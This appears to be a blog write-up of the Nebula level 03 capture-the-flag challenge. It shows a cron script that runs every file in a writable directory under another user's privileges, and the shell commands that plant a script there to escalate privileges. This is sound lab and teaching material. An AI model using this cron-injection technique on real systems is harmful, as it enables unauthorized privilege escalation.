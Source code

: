 ```yaml
---
layout: post
title: "Nebula03"
tags: Nebula
description: "Exploiting command injection in the CRON job script"
---
```



## Level 03

> Check the home directory of flag03 and take note of the files there. There is a crontab that is called every couple of minutes. To do this level, log in as the `level03` account with the password `level03`. Files for this level can be found in `/home/flag03`.

## Source code
There is no source code available on the site, but we will work with the script `/home/flag03/writable.sh`

```
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

```

## Getting the flag

From the task, we know that to get this flag we have to exploit the CRON job.  
By auditing the code of the script we can identify that everything in the `writable.d` directory will be read and executed by `bash`.  
Those challenges are more fun when the CRON job is executed by `root`, but we don't really need it to read the flag: 

```
level03@nebula:/tmp$ cd /home/flag03/writable.d/
level03@nebula:/home/flag03/writable.d$ echo "getflag > /tmp/flag" > flag
level03@nebula:/home/flag03/writable.d$ ls
flag
level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ cd /tmp
level03@nebula:/tmp$ ls
flag 
level03@nebula:/tmp$ cat flag 
You have successfully executed getflag on a target account
```

So what happened there? We created a file `flag` in the `writable.d` folder. The `writable.sh` was triggered by the CRON job in ~1 minute, and the `bash -x "getflag > /tmp/flag"` was executed, and our valid flag has been copied to the `/tmp/flag`
